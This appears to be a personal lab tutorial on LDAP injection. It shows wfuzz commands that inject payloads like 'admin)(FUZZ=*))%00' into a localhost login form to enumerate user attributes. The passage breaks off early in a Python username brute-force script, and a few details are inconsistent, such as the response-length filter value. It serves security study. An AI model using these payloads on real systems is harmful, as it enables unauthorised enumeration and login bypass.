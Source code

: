![[Pasted image 20230730191255.png]]
___
## Enumerating
Great, with all the knowledge so far, we can **enumerate** many things like **users** or **field users**.
Let's use [[Wfuzz]] to do a *brute force* to find out fields of the users at *LDAP* server.
```shell
wfuzz -c -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=anything&login=1&submit=Submit' http://localhost:8888
```
- `-c`: Mode with colors.
- `-w <WORD_LIST_PATH>`: Specifies the word list to use with **FUZZ** word.
- `-d 'user_id=admin)(FUZZ*))%00&password=anything&login=1&submit=Submit'`
	![[Pasted image 20230730194049.png]]
- `<IP>`: *LDAP* server address
![[Pasted image 20230730194148.png]]
___
You can see that there are lots of responses with **Chars** field with value **442**. Let's avoid them.
```shell
wfuzz -c --hh=550 -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=admin)(FUZZ=*))%00&password=anything&login=1&submit=Submit' http://localhost:8888
```
![[Pasted image 20230730194240.png]]
Now, we did find out all the **fields** of the user **admin** in **LDAP** server.
___
Then, we are going to list all the **fields** of the any *user* in **LDAP** server.
```shell
wfuzz -c --hh=550 -w /usr/share/SecLists/Fuzzing/LDAP-openldap-attributes.txt -d 'user_id=*)(FUZZ=*))%00&password=anything&login=1&submit=Submit' http://localhost:8888
```
![[Pasted image 20230730194505.png]]
___
### Retrieving Information with Python Scripting
Now, we could use a *Python* script to automate the information from **LDAP** server with all the knowledge retreived so far.
```Python
#!/usr/bin/python3
import requests
import time
import signal
import sys
import string
import pdb

# function to manage CTRL+c
def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# function to find out valid users by using brute force
def get_valid_users():
    # headers needed to sent POST data
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}

    # valid users acumulator
    valid_users = []
    # main bucle that will find out valid users
    for character_i in string.ascii_lowercase:
```